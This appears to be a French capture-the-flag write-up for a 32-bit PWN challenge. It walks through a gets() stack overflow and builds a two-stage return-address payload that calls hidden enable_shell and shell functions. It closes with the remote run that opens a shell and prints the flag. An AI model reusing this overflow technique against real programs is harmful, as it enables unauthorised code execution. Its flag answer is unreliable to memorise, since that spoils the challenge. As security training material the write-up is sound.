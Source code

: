 ## PWN / 0x00b

<p align="center">
  <img src="img/consignes.png" />
</p>

### Fichiers

- binaire : [0xb0f](0xb0f)
- libc : [libc-2.27.so](libc-2.27.so)

### Challenge

Une fois n'est pas de coutume, nous avons un binaire 32 bits, ça faisait longtemps, à garder en tête pour la suite, cela change les conventions d'appel ...

```bash
$ file 0xb0f
0xb0f: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=d504007e94e68eea1de94d0c4f96c05e57cfb843, not stripped
```

```bash
$ checksec --file=0xb0f
RELRO           STACK CANARY      NX            PIE
Partial RELRO   No canary found   NX enabled    No PIE
```


On décompile le code, pour regarder un peu ses fonctionnalités :

#### main()

```c
undefined4 main(void)

{
  uint seed;
  int alea;
  undefined *msg_result [5];
  undefined *local_14;

  local_14 = &stack0x00000004;
  seed = time((time_t *)0x0);
  srand(seed);
  msg_result[0] = &DAT_080488a3; // "lost"
  msg_result[1] = &DAT_080488a8; // "won"
  alea = rand();
  seed = get_int_input();
  printf("[+] You %s\n",msg_result[(alea - (alea >> 0x1f) & 1U) + (alea >> 0x1f) == (seed & 1)]);
  return 0;
}
```

Le programme demande une saisie (un entier) et après un peu de magie dessus décide si l'on gagne ou perd.

Jusque là, rien de fou.

#### get_int_input()

```c
void get_int_input(void)

{
  char user_input [14];

  printf("Give me a number: ");
  fflush(stdout);
  gets(user_input);
  atol(user_input);
  return;
}
```

La fonction appelée pour récupérer la saisie est plus intéressante, puisqu'elle prépare un buffer de 14 octets, mais ne vérifie pas la taille de l'input : `gets()`

Il va donc être possible d'overflow le buffer, et d'écraser la sauvegarde de l'adresse de retoure de `get_int_input()` sur la stack.

La stack est non executable, donc on ne va pas passer par un shellcode ... en revanche on remarque deux autres fonctions qui ne sont pas appelées par le flow d'exécution normal.


#### shell()

```c
void shell(int param_1)

{
  if (param_1 == -0x21524111) {
    if (shell_enabled == '\x01') {
      puts("[+] Launching shell...");
      execve("/bin/sh",(char **)0x0,(char **)0x0);
    }
    else {
      puts("[-] Shell not enabled yet");
    }
  }
  else {
    puts("[-] Wrong value !");
  }
  return;
}
```

Top, on a une fonction qui donne directement un shell dans le programme.

Il faut l'appeler avec `-0x21524111 = 0xdeadbeef` en argument et que au préalable `shell_enabled` (variable globale) soit à `true`.

#### enable_shell()

```c
void enable_shell(int param_1)

{
  if (param_1 == -0x35013f22) {
    shell_enabled = 1;
    puts("[+] Shell enabled");
  }
  else {
    shell_enabled = 0;
    puts("[-] Shell disabled");
  }
  return;
}
```

Elle doit être appelée avec `-0x35013f22 = 0xcafec0de` pour activer `shell_enabled`.

### Solution

Finalement il faut :
- écraser le saved rip de `get_int_input`
- appeler `enable_shell` avec le bon argument
- appeler `shell` avec le bon argument

En 32 bit, les arguments sont passés sur la stack :

```
Adresse de la fonction
Adresse de retour de la fonction
Argument 1
Argument 2
...
```

Il faut donc faire ici attention à l'adresse de retour ... sinon on va appeler `enable_shell()` mais le retour ira n'importe où et la suite ne s'exécutera pas.

En passant l'adresse de `get_int_input()` comme adresse de retour de `enable_shell()`, le programme nous redemandera une saisie et nous pourrons envoyer la deuxième partie du payload :

```python
enable_shell = 0x080485c6
shell = 0x0804861e
get_int_input = 0x0804869a

payload = b"A" * 22
payload += p32(enable_shell)
payload += p32(get_int_input)
payload += p32(0xcafec0de)

payload2 = b"B" * 22
payload2 += p32(shell)
payload2 += p32(0xdeadbeef)
payload2 += p32(0xdeadbeef)
```

Les 22 octets en début de payload sont le padding pour écraser le saved RIP, on peut les calculer statiquement ou regarder dans GDB la disposition de la stack quand on saisit une entrée.

code : [0xb0f.py](0xb0f.py)

```bash
$ python3 0xb0f.py REMOTE
[+] Opening connection to pwn.pwnme.fr on port 7007: Done
Give me a number:
[+] Shell enabled
Give me a number:
[*] Switching to interactive mode
$ ls
0xb0f
entry.sh
flag.txt
$ cat flag.txt
PWNME{3bc086a442c37cfb86ebdb63dcddc9bb}
```
